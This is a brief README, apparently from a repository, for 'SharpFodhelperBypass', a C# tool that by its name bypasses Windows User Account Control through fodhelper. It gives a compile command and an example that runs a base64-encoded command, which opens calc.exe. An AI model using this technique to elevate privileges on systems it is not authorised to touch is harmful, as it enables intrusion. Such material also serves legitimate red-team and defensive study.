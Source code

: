 # SharpFodhelperBypass

Compile with csc

C:\windows\Microsoft.NET\Framework\v4.0.30319\csc.exe SharpFodhelperBypass.cs

Base64 encode command to run

Execute with base64 encoded command as argument:

SharpFodhelperBypass.exe Y21kIC9jIHN0YXJ0IGNhbGMuZXhl

The above will launch calc.exe
